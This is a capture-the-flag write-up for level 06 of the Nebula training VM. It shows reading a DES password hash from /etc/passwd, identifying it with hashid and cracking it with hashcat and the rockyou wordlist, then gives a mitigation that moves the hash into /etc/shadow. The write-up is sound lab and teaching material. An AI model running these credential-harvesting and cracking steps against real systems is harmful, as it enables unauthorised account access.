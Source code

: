 # Level 06

The **flag06** account credentials came from a legacy unix system.

To do this level, log in as the **level06** account with the password **level06**. Files for this level can be found in /home/flag06.

## Source Code

There is no source code available for this level.

## Writeup

The initial hint suggest that the **flag06** account credentials came from a legacy unix system. Let's grep flag06 line of **/etc/passwd** file:

```bash
grep flag06 /etc/passwd
```

This is the output:

```bash
level06@nebula:/home/flag06$ grep flag06 /etc/passwd
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```

There is the hash of the password, in the new systems the second parameter is an '**x**' that means that the hash of the password is in the **/etc/shadow** file.

We can use the **hashid** command to dicover what kind of hash is this:

**NB:** you can install it with the command: `sudo apt install hashid`

```bash
hashid -m ueqwOCnSGdsuM
```

This is the output:

```
Analyzing 'ueqwOCnSGdsuM'
[+] DES(Unix) [Hashcat Mode: 1500]
[+] Traditional DES [Hashcat Mode: 1500]
[+] DEScrypt [Hashcat Mode: 1500]
```

The **-m** give to us the hashcat module number to crack the hash.
Write the hash to a file named **flag06.hash** in your local machine: 

```bash
echo ueqwOCnSGdsuM > flag05.hash
```

Now use **hashcat** to crack the password with the **rockyou** dictionary:

**NB:** the rockyou dictionary can be download at: https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

**NB:** you can install hashcat with the command: `sudo apt install hashcat` 

```bash
hashcat -a 0 -m 1500 flag05.hash rockyou.txt
```

The **-a** argument means that we use the dictionary attack mode.

This is the output:

```
Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

ueqwOCnSGdsuM:hello                                       
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1500 (descrypt, DES (Unix), Traditional DES)
Hash.Target......: ueqwOCnSGdsuM
Time.Started.....: Tue Mar 14 23:27:37 2023 (0 secs)
Time.Estimated...: Tue Mar 14 23:27:37 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  5360.5 kH/s (5.79ms) @ Accel:256 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 58401/14344384 (0.41%)
Rejected.........: 9249/58401 (15.84%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> karely
Hardware.Mon.#1..: Temp: 51c Util:  1% Core:1084MHz Mem:2000MHz Bus:4
```

Now we know the password of **flag06** user account.
Let's login with this credentials:

```
sh-4.2$ id
uid=993(flag06) gid=993(flag06) groups=993(flag06)
```

We can run the **getflag** program:

```
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## Mitigation #1

We can move the hash of the password in the **/etc/shadow** file:

```bash
sed "s/flag06:\!:/flag06:ueqwOCnSGdsuM:/" /etc/shadow -i
```

And insert an **x** in the file **/etc/passwd**:

```bash
sed "s/flag06:ueqwOCnSGdsuM:/flag06:x:/" /etc/passwd -i
```

Now **level06** can't find the hash of the password:

```bash
level06@nebula:/home/flag06$ grep flag06 /etc/passwd
flag06:x:993:993::/home/flag06:/bin/sh
level06@nebula:/home/flag06$ grep flag06 /etc/shadow
grep: /etc/shadow: Permission denied
```